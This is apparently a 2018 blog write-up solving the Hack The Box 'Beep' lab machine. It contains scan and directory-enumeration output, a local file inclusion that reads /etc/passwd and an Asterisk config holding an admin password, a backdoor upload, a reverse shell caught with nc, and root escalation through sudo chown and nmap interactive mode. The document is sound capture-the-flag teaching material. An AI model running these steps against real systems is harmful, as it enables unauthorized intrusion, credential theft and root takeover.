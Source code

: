 ```yaml
---
layout: post
title:	"Beep Writeup"
date:	2018-01-07 21:30:00
categories:
    - blog
tags:
    - hackthebox
---
```


Hello,

this is my first writeup for Hack The Box platform, the machine was [Beep](https://www.hackthebox.eu/home/machines/profile/5).

Let's run nmap to see which services are running on the machine:

~~~
root@kali:~# nmap -sT -sV -p 1-65535 10.10.10.7 -A

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-08 12:27 EST
Nmap scan report for beep.localdomain (10.10.10.7)
Host is up (0.087s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
746/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
~~~

There were a lot of services.

On port 443 there was Apache with elastix:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img1.png)

By using dirsearch I enumerated it's directories:

~~~
root@kali:/usr/share/wordlists/SecLists/Discovery/Web_Content# dirsearch -u https://10.10.10.7/ -w raft-medium-directories.txt -e php,txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt | Threads: 10 | Wordlist size: 30005

Error Log: /opt/dirsearch/logs/errors-18-01-08_15-16-00.log

Target: https://10.10.10.7/

[15:16:01] Starting: 
[15:16:02] 301 -  309B  - /admin  ->  https://10.10.10.7/admin/
[15:16:02] 301 -  310B  - /images  ->  https://10.10.10.7/images/
[15:16:02] 301 -  311B  - /modules  ->  https://10.10.10.7/modules/
[15:16:02] 301 -  310B  - /themes  ->  https://10.10.10.7/themes/
[15:16:03] 301 -  308B  - /help  ->  https://10.10.10.7/help/
[15:16:05] 301 -  307B  - /var  ->  https://10.10.10.7/var/
[15:16:05] 301 -  308B  - /mail  ->  https://10.10.10.7/mail/
[15:16:06] 301 -  310B  - /static  ->  https://10.10.10.7/static/
[15:16:07] 301 -  308B  - /lang  ->  https://10.10.10.7/lang/
[15:16:10] 301 -  308B  - /libs  ->  https://10.10.10.7/libs/
[15:16:19] 301 -  309B  - /panel  ->  https://10.10.10.7/panel/
[15:16:58] 301 -  311B  - /configs  ->  https://10.10.10.7/configs/
[15:23:39] 301 -  314B  - /recordings  ->  https://10.10.10.7/recordings/
[15:26:38] 301 -  313B  - /vtigercrm  ->  https://10.10.10.7/vtigercrm/
[15:26:42] 200 -    2KB - /
~~~

I found vtigercrm 5.1.0:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img2.png)

This version is vulnerable to LFI.
With [goWAPT](https://github.com/dzonerzy/goWAPT) I enumerated all the files:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img3.png)

In the /etc/passwd file we can see the user Fanis:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img4.png)

After some research on google about asterisk, I got the etc/asterisk/manager.conf file:

~~~
;
; AMI - Asterisk Manager interface
;
; FreePBX needs this to be enabled. Note that if you enable it on a different IP, you need
; to assure that this can't be reached from un-authorized hosts with the ACL settings (permit/deny).
; Also, remember to configure non-default port or IP-addresses in amportal.conf.
; 
; The AMI connection is used both by the portal and the operator's panel in FreePBX.
;
; FreePBX assumes an AMI connection to localhost:5038 by default.
;
[general]
enabled = yes
port = 5038
bindaddr = 0.0.0.0
displayconnects=no ;only effects 1.6+

[admin]
secret = jEhdIekWmdjE
deny=0.0.0.0/0.0.0.0
permit=127.0.0.1/255.255.255.0
read = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate
write = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate

#include manager_additional.conf
#include manager_custom.conf
~~~

I used the credential admin:jEhdIekWmdjE contained in this file to log in Elastix, Vtigercrm and FreePBX.

After some research on Google, I was able to upload a backdoor by using this [vulnerability](https://www.exploit-db.com/exploits/38345/) in vtiger crm:

![Screenshot]({{ site.baseurl }}/images/2018-01-08-htb-beep/img5.png)

With python I got a reverse shell and the user flag:

~~~
root@kali:~/Desktop/webshell# nc -lvp 80
listening on [any] 80 ...
connect to [10.10.14.6] from beep.localdomain [10.10.10.7] 46497
sh: no job control in this shell
sh-3.2$ ls
logo.txt
sale.jpeg
vtiger-crm-logo.jpg
webshell.php
sh-3.2$ python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ cat /home/fanis/user.txt
cat /home/fanis/user.txt
~~~

There were different ways to get the root flag:

~~~
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo /bin/chown -r asterisk /root
sudo /bin/chown -r asterisk /root
/bin/chown: invalid option -- r
Try `/bin/chown --help' for more information.
bash-3.2$ sudo /bin/chown -R asterisk /root
sudo /bin/chown -R asterisk /root
bash-3.2$ cat /root/root.txt
cat /root/root.txt
~~~


~~~
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
!id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
waiting to reap child: No child processes (10)
nmap>
~~~

Bye!!!

